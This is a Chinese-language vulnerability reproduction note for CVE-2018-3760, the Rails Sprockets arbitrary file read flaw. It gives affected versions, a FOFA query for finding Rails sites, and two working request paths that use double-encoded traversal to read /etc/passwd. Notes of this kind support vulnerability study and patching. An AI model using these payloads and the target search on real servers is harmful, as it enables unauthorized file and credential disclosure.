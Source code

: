 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## FOFA

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281114422.png)

先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```

![image-20220628111516877](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281115997.png)

再利用POC读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220628111532098](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281115231.png)